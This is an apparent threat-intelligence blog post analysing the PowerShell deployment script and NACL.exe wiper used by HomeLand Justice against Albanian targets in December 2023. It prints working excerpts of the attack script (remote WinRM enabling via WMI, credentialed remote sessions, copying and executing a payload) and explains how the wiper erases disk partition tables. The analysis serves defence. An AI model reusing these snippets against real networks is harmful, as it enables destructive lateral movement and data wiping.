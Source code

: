 ```yaml
---
title:  "An analysis of the malware used in the recent cyber-attacks targeting Albania"
date:   2023-12-28
categories: Albania APT state actor hacking cyberattack HomeLandJustice
---
```


## Introduction

On December the 25th, on Christmas day, a hacking group known as HomeLand Justice revealed in their telegram account that they had successfully compromised a well-known telecommunication company and the Albanian Parlament. One of the images showed images of what appeared to be access to VSphere which is a virtualization system.

![Image from HomeLand Justice showing access to vSphere](/images/Pasted image 20231227230322.png)

In another video, HomeLand Justice showed how they were performing a wiping attack which was initiated from an Exchange server which potentially could have been the entry point of the compromise.

![Image from HomeLand Justice showing access to Exchange-SRV1 as user t0.admin](/images/Pasted image 20231227230828.png)


On one of the videos, the attackers were showing the execution of a Powershell script, which appeared to remotely deploy a file named NACL.exe which is believed to be the wiper malware. 

![HomeLand Justice executing p.ps1 PowerShell Script](Pasted image 20231227224823.png)

As no samples were made public, ClearSky, a Cyber Security company managed to identify the malware based on the filenames and file content.
![](/images/[Pasted image 20231227231812.png)

https://twitter.com/clearskysec/status/1740003566431940983

Both samples that may have been featured in the video were also identified on VirusTotal. The files were retrieved from VirusTotal, and the entire analysis is grounded in the examination of these two files.

https://www.virustotal.com/gui/file/36cc72c55f572fe02836f25516d18fed1de768e7f29af7bdf469b52a3fe2531f
https://www.virustotal.com/gui/file/c8b72d6416df83ee44134c779f70125cf1713d8797b0128ef591a7fe15674ac8

## p.ps1 - Analysis

The PowerShell script shown in the video is named "p.ps1" and is pretty easy to reverse engineer as there is no obfuscation, it has comments and uses common documented functionality such as WMI and WinRM.

The script has several function but the most interesting ones are outlined below:

* TestConnection - this is a wrapper function against Test-Connection function on Powershell.
* TestWSManEnabled -  another wrapper function for the Test-WSMan function on Powershell
* TryToEnableWinRM
This function accepts three parameters: the remote computer, username, and password. It then creates a PSCredential object with the specified credentials, and uses the Invoke-WmiMethod function to execute a command on the remote computer.

```powershell
function TryToEnableWinRM

{

param($computerName, $Password, $UserName)

  

$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force

$Credentials = New-Object System.Management.Automation.PSCredential ($Username, $SecurePassword) -ErrorAction SilentlyContinue -ErrorVariable Crederror

$result = Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\services\WinRM' -Name 'Start' -Value 2; Start-Service WinRM; Enable-Psremoting -SkipNetworkProfileCheck -force" -ComputerName $computerName -ErrorAction SilentlyContinue -Credential $Credentials

if($result)

{

return $true

}

else

{

return $false

}

}
```

The Invoke-WMI function will connect to the remote computer and using the Win32_Process class will execute the following commands:

```
powershell.exe Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\services\WinRM' -Name 'Start' -Value 2; Start-Service WinRM; Enable-Psremoting -SkipNetworkProfileCheck -force
```

The first command will set a registry key to configure the WinRM service to start automatically when the system boots. It will then start the WinRM service on the system and by using the Enable-Psremoting command, enables Powershell remoting.

* CreateSession
This function is responsible for setting up the connections to the remote computers using Powershell Remoting.  If successful, it will return the session which is than later used to upload and execute executables.

```powershell
if ($Username -and $Password)

{

$SecurePassword = ConvertTo-SecureString $Password -AsPlainText -Force

$Credentials = New-Object System.Management.Automation.PSCredential ($Username, $SecurePassword) -ErrorAction SilentlyContinue -ErrorVariable Crederror

if($Crederror.length -gt 0)

{

Add-Content -Path $env:Temp\$machine.txt -Value "[UnSuccess][$machine]:: [Error(CreateSession)] : $Crederror"

return $false

}

$Session = New-PSSession -ComputerName $Remotecomputer -Credential $Credentials -ErrorAction SilentlyContinue -ErrorVariable e

}

else

{

$Session = New-PSSession -ComputerName $Remotecomputer -ErrorAction SilentlyContinue -ErrorVariable e

}
```


* ActionOnOpenMachine
This function is one of the most important ones as is the one responsible for uploading the malicious files and executing them. 

To copy files, it uses the Copy-Item function

```powershell
Copy-Item -Path $SourcePath -Destination $DestPath -ToSession $Session -Force
```

After copying the item successfully, it will use the Invoke-Command function to execute the uploaded file.

```powershell
Invoke-Command -Session $Session -ScriptBlock { Start-Process $using:DestPath -ArgumentList $using:ExecutableArgs -NoNewWindow }
```

To conclude, the Powershell script will read a target list that is specified by the operator and perform the following actions:

* Will check if machine is online
* Will check if WinRM is enabled, if not, it will enable it
* Creates a PowerShell remoting session
* Copies the specified file on the remote machine and execute it if `run` is specified as an argument

## NACL.exe Analysis

The video showed HomeLand Justice group deploying a binary NACL.exe through the previously analyzed script. On the video, the file was named NACL.exe, but the original filename that it was compiled is Ptable.exe

![PE file information](Pasted image 20231227215444.png)

What was interesting in this case is that the binary was signed with a valid Code-Signing certificate as can be seen from the following image:

![NACL.exe Signing Information](Pasted image 20231227215407.png)

It is highly likely that the attackers either stole the code-signing certificates or bought them using fake companies.

Loading the NACL.exe binary in a disassembler, the binary was pretty small and mainly contained standard libraries functions. 
All the malicious code was located on address 0x00401010

![Main function disassembly](Pasted image 20231227210402.png)

Firstly the code defines some variables and function pointers. It loads the kernel32.dll library using LoadLibraryW. After that, it uses GetProcAddress to find the addresses of several function and load them to the function pointers that were defined earlier. 
It will then use a function that calls `___stdio_common_vswprintf_p` and construct the following string `\\.\c:`. The malware will then call the CreateFileW function to open a handle to that path and store it on the v5 variable.
And finally it will check if the handle is invalid, if not, it will call DeviceIoControl with the previously opened handle and the flag 0x7c100. The flag 0x7c100 stands for  IOCTL_DISK_DELETE_DRIVE_LAYOUT which is used to delete the partition table and drive layout information on a disk.


## Conclusions and Recommendations

While these attacks can be highly destructive, they are entirely preventable. Ensuring that  externally exposed systems are updated in a timely manner and maintaining a robust security posture can significantly thwart attackers. It is crucial to disable any unused services, implement proper privilege separation, and leverage effective security solutions to proactively detect and prevent potential attacks.


### References

https://www.crowdstrike.com/blog/the-anatomy-of-wiper-malware-part-3/
https://www.virustotal.com/gui/file/36cc72c55f572fe02836f25516d18fed1de768e7f29af7bdf469b52a3fe2531f/details
https://x.com/clearskysec/status/1740003566431940983?s=48&t=NMUlnWhWEekWk7W7mjpYBg




